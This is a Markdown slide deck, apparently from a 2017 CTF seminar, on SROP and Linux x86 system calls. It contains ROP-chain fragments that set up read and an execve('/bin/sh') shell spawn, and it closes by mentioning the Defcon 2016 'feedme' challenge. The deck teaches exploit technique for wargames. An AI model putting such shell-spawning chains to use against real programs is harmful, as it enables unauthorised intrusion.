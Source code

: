 footer: © 2O2L2H Book/Seminar, 2017
slidenumbers: true

# [fit] SROP 

### June 8, 2017   2O2L2H/humb1ec0ding

```
/awesome-ctf-wargame/seminar/topic/srop
```

---
# [fit] Linux System Calls

![left fit](./fig/linux-system-call.png)

- `int 80`
- system call number

---
# [fit] [Assembly System Calls](https://www.tutorialspoint.com/assembly_programming/assembly_system_calls.htm)

![left fit](./fig/srop-arg.png)

- `eax` : system call number
- `ebx` : file descriptor - `stdin/out/err`
- `ecx` : buffer
- `edx` : siz


---
# system call : assembly

```
mov eax,1   ; system call number (sys_exit)
int 0x80    ; call kernel

mov edx,4   ; message length
mov ecx,msg ; message to write
mov ebx,1   ; file descriptor (stdout)
mov eax,4   ; system call number (sys_write)
int 0x80    ; call kernel
```

---
# gadget for system call

- pop reg, ret
- int 0x80, ret

### Useful exploit

- open("flag"), read(buf,size,), write(buf, size, )
- execve("/bin/sh", NULL, NULL)
- [security - system() vs execve() - Stack Overflow](https://stackoverflow.com/questions/27461936/system-vs-execve)



---
## read(0, e.bss(), 0x8)

```
ex += p32(pop_eax)              # pop eax
ex += p32(0x3)                  # number of systemcall sys_read
ex += p32(pop_edx_edx_ebx_ret)  # pop edx/ecx/ebx
ex += p32(0x8)                  # size of stdin
ex += p32(elf.bss())            # buf for stdin
ex += p32(0)                    # fd of stdin
ex += p32(int0x80)              # invoke system calls in Linux on x86
```

---
## execve("/bin/sh",NULL, NULL)

```
ex += p32(pop_eax)              # pop eax
ex += p32(0xb)                  # number of systemcall sys_execve
ex += p32(pop_edx_edx_ebx_ret)  # pop edx/ecx/ebx
ex += p32(0)                    # third argument of execve : NULL
ex += p32(0)                    # second argument of execve : NULL
ex += p32(elf.bss())            # first argument of execve : buf
ex += p32(int0x80)              # invoke system calls
```

---
# [fit] Defcon 2016 feedme

- Canary : fork child, bruteforce
- SROP : static linked, stripped



